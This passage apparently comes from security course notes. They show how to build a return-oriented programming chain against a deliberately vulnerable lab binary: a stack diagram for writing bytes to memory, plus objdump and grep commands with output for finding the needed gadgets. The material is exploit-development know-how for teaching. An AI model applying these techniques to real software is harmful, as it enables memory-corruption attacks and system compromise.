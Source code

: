 ``` example
    | <mov [edx],eax;ret> | write '0000' to address 0x080ea61
    | 0x080ea061           | next byte after 0x80ea61
    | <pop edx; ret>      | store next value in edx
    | <xor eax,eax; ret>  | zero eax
    | <mov [edx],eax;ret> | write 'AAAA' to address 0x080ea60
    | 0x41414141          | 'AAAA'
    | <pop eax;ret>       | store next value in eax
 ^  | 0x080ea060           | address we will write to, now stored in edx
 |  | <pop edx; ret>      |  store next value in edx
```

Reading from bottom to top up the stack. First, we move the address we
want to write to into edx with a pop, then similarly we move a bunch of
A's into eax. Then we can write to the address edx the A's in eax. Once
we zero out eax and write that to the next byte, we should have the
string "A\\0" at address 0x080ea061.

Let's find the right gadgets. First, we need `pop edx;ret`:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 4 ret | grep -A 4 "pop.*edx" 
 806e97a:   5a                      pop    edx
 806e97b:   c3                      ret   
```

Then we need a pop `pop eax; ret`. Unfortunately, finding this is
harder, and unfortunately, the one I found does a bunch of other stuff:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 4 ret | grep -A 4 "pop.*eax" 
 809e08a:   58                      pop    eax
 809e08b:   5b                      pop    ebx
 809e08c:   5e                      pop    esi
 809e08d:   5f                      pop    edi
 809e08e:   c3                      ret    
```

But that's fine, we can handle that. And, we already have the `mov`
command:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 "DWORD PTR \[edx\],eax"
(...)
 809a70d:   89 02                   mov    DWORD PTR [edx],eax
 809a70f:   c3                      ret    
--
```

The last thing we need is `xor` eax command:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 1 ret | grep -A 1 "xor.*eax,eax" 
 8054200:   31 c0                   xor    eax,eax
 8054202:   c3                      ret    
(...)
```
